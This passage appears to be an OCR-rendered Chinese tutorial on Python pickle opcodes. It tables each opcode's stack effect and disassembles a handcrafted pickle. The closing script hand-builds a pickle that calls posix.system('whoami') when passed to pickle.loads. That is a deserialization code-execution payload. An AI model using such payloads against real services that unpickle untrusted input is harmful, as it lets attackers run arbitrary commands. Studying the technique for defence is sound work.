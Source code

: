 | F      | 实例化一个float对象                                          | Fx.x\n                                             | 获得的对象入栈                                               | 无           |
| R      | 选择栈上的第一个对象作为函数、第二个对象作为参数（第二个对象必须为元组），然后调用该函数 | R                                                  | 函数和参数出栈，函数的返回值入栈                             | 无           |
| .      | 程序结束，栈顶的一个元素作为pickle.loads()的返回值           | .                                                  | 无                                                           | 无           |
| (      | 向栈中压入一个MARK标记                                       | (                                                  | MARK标记入栈                                                 | 无           |
| t      | 寻找栈中的上一个MARK，并组合之间的数据为元组                 | t                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| )      | 向栈中直接压入一个空元组                                     | )                                                  | 空元组入栈                                                   | 无           |
| l      | 寻找栈中的上一个MARK，并组合之间的数据为列表                 | l                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| ]      | 向栈中直接压入一个空列表                                     | ]                                                  | 空列表入栈                                                   | 无           |
| d      | 寻找栈中的上一个MARK，并组合之间的数据为字典（数据必须有偶数个，即呈key-value对） | d                                                  | MARK标记以及被组合的数据出栈，获得的对象入栈                 | 无           |
| }      | 向栈中直接压入一个空字典                                     | }                                                  | 空字典入栈                                                   | 无           |
| p      | 将栈顶对象储存至memo_n                                       | pn\n                                               | 无                                                           | 对象被储存   |
| g      | 将memo_n的对象压栈                                           | gn\n                                               | 对象被压栈                                                   | 无           |
| 0      | 丢弃栈顶对象                                                 | 0                                                  | 栈顶对象被丢弃                                               | 无           |
| b      | 使用栈中的第一个元素（储存多个属性名: 属性值的字典）对第二个元素（对象实例）进行属性设置 | b                                                  | 栈上第一个元素出栈                                           | 无           |
| s      | 将栈的第一个和第二个对象作为key-value对，添加或更新到栈的第三个对象（必须为列表或字典，列表以数字作为key）中 | s                                                  | 第一、二个元素出栈，第三个元素（列表或字典）添加新值或被更新 | 无           |
| u      | 寻找栈中的上一个MARK，组合之间的数据（数据必须有偶数个，即呈key-value对）并全部添加或更新到该MARK之前的一个元素（必须为字典）中 | u                                                  | MARK标记以及被组合的数据出栈，字典被更新                     | 无           |
| a      | 将栈的第一个元素append到第二个元素(列表)中                   | a                                                  | 栈顶元素出栈，第二个元素（列表）被更新                       | 无           |
| e      | 寻找栈中的上一个MARK，组合之间的数据并extends到该MARK之前的一个元素（必须为列表）中 | e                                                  | MARK标记以及被组合的数据出栈，列表被更新                     | 无           |

结合语法，重新分析一下opcode

```bash
    0: c    GLOBAL     'posix system  ' #对象入栈 unix为posix windows为nt
   14: p    PUT        0 						  	#存储到memo的0位置
   17: (    MARK  									    #向栈中压入一个MARK标记 左括号标志符
   18: V        UNICODE    'whoami'     #压入一个字符串
   26: p        PUT        1            #存储到memo的1位置
   29: t        TUPLE      (MARK at 17) #在栈中寻找上一个MARK标记，将其和中间内容出栈，参数形成元祖入栈
   30: p    PUT        2							  #存储到memo的2位置
   33: R    REDUCE											# system("whoami")出栈，结果如栈
   34: p    PUT        3								# 结果存储到memo3
   37: .    STOP												# 停止
```

结合语法来说的话，还是可以理解了，加上memo上的操作可以省略，简化为：

 ```python
 import pickle
 
 a='''cposix
 system
 (Vwhoami
 tR.'''
 
 print(a)
 pickle.loads(a.encode())
 
 #theoyu
 ```

